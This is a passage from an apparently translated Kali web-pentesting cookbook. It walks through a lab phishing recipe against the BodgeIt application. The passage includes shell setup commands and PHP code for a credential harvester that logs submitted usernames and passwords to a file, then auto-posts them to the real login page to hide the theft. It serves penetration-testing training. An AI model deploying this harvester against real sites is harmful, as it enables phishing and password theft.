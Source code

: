6.  你可以看到，密码会保存到` passwords_C00kb00k.txt`。我们需要创建这个文件来设置合理的权限。在 root 终端中访问`/var/www/html/bodgeit `，并输入下列命令：

    ```
    touch passwords_C00kb00k.txt 
    chown www-data passwords_C00kb00k.txt
    ```
    
    要记住 Web 服务器运行在 www-data 用户下，所以我们需要使这个用户为文件的所有者，便于它可被 web 服务器进程写入。
    
7.  现在，是时候让受害者访问这个站点了，假设我们让用户访问了`http://192.168.56.1/bodgeit/login.jsp`，打开浏览器并访问它。

8.  使用一些有效用户信息填充登录表单，对于这个秘籍我们会使用`user@ mail.com/password`。

9.  点击`Login`。
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/9-2-1.jpg)
    
    它看起来能正常工作，我们现在成功登录了` 192.168.56.102`。
    
0.  让我们检查密码文件，在终端中输入：

    ```
    cat passwords_C00kb00k.txt
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/9-2-2.jpg)
    
    并且，我们得到它了。我们捕获了用户的密码，将它们重定向到正常页面并执行了登录。
    
### 工作原理

这个秘籍中，我们使用了站点副本来创建密码收集器，并使它更加可信，我们使脚本执行原始站点的登录。

在前三步中，我们简单设置了 Web 服务器和它要展示的文件。下面，我们创建了密码收集器脚本`post.php`：前两行和之前的秘籍相同，它接受所有 POST 参数并保存到文件中。

```php
$file = 'passwords_C00kb00k.txt';  
file_put_contents($file, print_r($_POST, true), FILE_APPEND);
```

之后我们将每个参数储存到变量中：

```php
$username=$_POST["username"];  
$password=$_POST["password"];  
$submit="Login";
```

因为我们的登录不打算依赖于用户发送的正确值，我们设置`$submit="Login"`。下面，我们创建了 HTML 主题，它包含一个表单，在页面加载完毕后会自动发送`username`，`password`和`submit`值到原始站点。

```php
<body onload="frm1.submit.click()"> 
<form name="frm1" id="frm1" method="POST" 
action="http://192.168.56.102/bodgeit/login.jsp"> 
<input type="hidden" value="<?php echo $username;?>" name ="username"> 
<input type="hidden" value="<?php echo $password;?>" name ="password"> 
<input type="submit" value="<?php echo $submit;?>" name ="submit"> 
</form> 
</body>
```
